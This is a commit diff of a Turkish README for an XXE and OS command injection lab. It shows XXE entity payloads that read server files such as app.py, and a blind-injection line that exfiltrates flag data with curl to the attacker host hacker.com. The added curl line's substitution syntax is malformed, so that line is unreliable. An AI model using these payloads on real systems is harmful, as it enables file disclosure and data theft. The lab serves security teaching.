

Before and after one commit to m-balik/xxe-oscommandinjection-lab, a Markdown page: README.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -63,13 +63,13 @@ Burada **`load_dtd=True`** ve **`resolve_entities=True`** parametreleri, uygulam
 
 ### Payload Oluşturma ve Saldırı
 
-Hedefimiz, **flag.txt** dosyasını okumak. Aşağıdaki gibi bir XML payload'ı oluşturabiliriz:
+Hedefimiz, kaynak kodunu okumak. Bu sayede logini aşacak bir adım bulabiliriz. Aşağıdaki gibi bir XML payload'ı oluşturabiliriz:
 
 ```xml
 <!DOCTYPE foo [
   <!ELEMENT username (#PCDATA)>
   <!ELEMENT password (#PCDATA)>
-  <!ENTITY xxe SYSTEM "file:///path/to/flag.txt">
+  <!ENTITY xxe SYSTEM "file:///path/to/app.py">
 ]>
 <login>
   <username>&xxe;</username>
@@ -80,7 +80,7 @@ Hedefimiz, **flag.txt** dosyasını okumak. Aşağıdaki gibi bir XML payload'ı
 Bu payload şunları yapar:
 
 1. Bir dış varlık tanımlar (**`<!ENTITY>`**).
-2. Sunucunun dosya sistemindeki hassas dosyayı okur (**`file:///path/to/flag.txt`**).
+2. Sunucunun dosya sistemindeki hassas dosyayı okur (**`file:///path/to/app.py`**).
 3. Sonuçta, kullanıcı adı alanına bu dosyanın içeriğini yerleştirir.
 
 ---
@@ -99,7 +99,7 @@ Content-Type: application/xml
 <!DOCTYPE foo [
   <!ELEMENT username (#PCDATA)>
   <!ELEMENT password (#PCDATA)>
-  <!ENTITY xxe SYSTEM "file:///flag.txt">
+  <!ENTITY xxe SYSTEM "file:///path/to/app.py">
 ]>
 <login>
   <username>&xxe;</username>
@@ -175,13 +175,12 @@ Ping çıktısının ardından `flag.txt` dosyasının içeriği görüntülenir
 
 ### Blind Command Injection
 
-`/blind` endpointinde komutların çıktısı doğrudan kullanıcıya gösterilmiyor. Ancak komutun sonuçlarını dosyaya yazdırarak zafiyeti kullanabiliriz:
+`/blind` endpointinde komutların çıktısı doğrudan kullanıcıya gösterilmiyor. Ancak komutun sonuçlarını bizim kontrol ettiğimiz bir servera göndererek zafiyeti kullanabiliriz:
 
 ```bash
-127.0.0.1; echo "FLAG:$(cat /flag.txt)" > /tmp/output.txt
+127.0.0.1; curl -X POST -d "${cat%20flag.txt}" https://hacker.com
 ```
 
-Daha sonra `/tmp/output.txt` dosyasını başka bir yolla okuyabilirsiniz.
 
 ---
 
````
